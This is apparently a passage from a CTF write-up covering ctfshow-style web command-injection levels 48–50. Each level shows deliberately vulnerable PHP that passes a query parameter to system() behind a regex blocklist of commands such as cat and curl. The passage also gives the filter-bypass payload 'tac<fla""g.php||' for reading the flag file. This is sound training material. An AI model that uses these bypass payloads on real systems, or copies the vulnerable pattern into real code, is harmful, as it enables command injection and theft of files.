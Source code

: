 ```php
?c=tac<fla""g.php||
```

## web48

```php
<?php
if(isset($_GET['c'])){
    $c=$_GET['c'];
    if(!preg_match("/\;|cat|flag| |[0-9]|\\$|\*|more|less|head|sort|tail|sed|cut|awk|strings|od|curl|\`/i", $c)){
        system($c." >/dev/null 2>&1");
    }
}else{
    highlight_file(__FILE__);
}
```

```php
?c=tac<fla""g.php||
```

## web49

```php
<?php
if(isset($_GET['c'])){
    $c=$_GET['c'];
    if(!preg_match("/\;|cat|flag| |[0-9]|\\$|\*|more|less|head|sort|tail|sed|cut|awk|strings|od|curl|\`|\%/i", $c)){
        system($c." >/dev/null 2>&1");
    }
}else{
    highlight_file(__FILE__);
}
```

```php
?c=tac<fla""g.php||
```

## web50

```php
<?php
if(isset($_GET['c'])){
    $c=$_GET['c'];
    if(!preg_match("/\;|cat|flag| |[0-9]|\\$|\*|more|less|head|sort|tail|sed|cut|awk|strings|od|curl|\`|\%|\x09|\x26/i", $c)){
        system($c." >/dev/null 2>&1");
    }
}else{
    highlight_file(__FILE__);
}
```
